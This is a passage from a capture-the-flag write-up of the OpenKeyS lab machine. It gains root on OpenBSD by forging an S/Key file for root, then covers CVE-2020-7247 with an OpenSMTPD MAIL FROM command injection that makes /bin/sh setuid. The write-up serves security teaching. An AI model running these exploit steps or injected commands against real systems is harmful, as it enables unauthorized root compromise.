 #### Execute

With a shell in the `auth` group, I’ll write the file and change the permissions to 600:

```

openkeys$ echo 'root md5 0100 obsd91335 8b6d96e0ef1b1c21' > /etc/skey/root
openkeys$ chmod 0600 /etc/skey/root

```

I actually can’t look at the result, but it is in there. Now I can run `su` to get a shell as root. I’ll use `-l` to actually login, `-a skey` to specify S/Key auth. The POC also uses `env -i TERM=vt220` to clear the environment and then set the terminal on running. I can run without that, but then I’m prompted for the terminal type. When prompted for the password, I’ll enter “EGG LARD GROW HOG DRAG LAIN”, because I know from the script that is what is expected for the seed 8b6d96e0ef1b1c21. Then it returns a root shell.

```

openkeys$ env -i TERM=vt220 su -l -a skey
otp-md5 99 obsd91335
S/Key Password:                                                                                         
openkeys#

```

## Beyond Root

### Unintended Root - CVE-2020-7247

A few days after this box was submitted, a new CVE for OpenBSD was released, [CVE-2020-7247](https://www.qualys.com/2020/01/28/cve-2020-7247/lpe-rce-opensmtpd.txt), allowing for command injection into the SMTP daemon. OpenKeyS is vulnerable to it. I’ll connect to port 25 on localhost. The connection will hang for several minutes while it tries to resolve a DNS query to 8.8.8.8. Eventually, it will return with it’s 220 statement. I’ll identify as jennifer, and then send a malicious `MAIL FROM:` with a command injection. I’ll find a valid recipient (jennifer again), and then send an empty email:

```

openkeys$ nc 127.0.0.1 25 
220 openkeys.htb ESMTP OpenSMTPD
HELO jennifer
250 openkeys.htb Hello jennifer [127.0.0.1], pleased to meet you
MAIL FROM:<;chmod u+s /bin/sh;>
250 2.0.0 Ok
RCPT TO:<jennifer>
250 2.1.5 Destination address valid: Recipient ok
DATA
354 Enter mail, end with "." on a line by itself
.
250 2.0.0 fffb5159 Message accepted for delivery

```
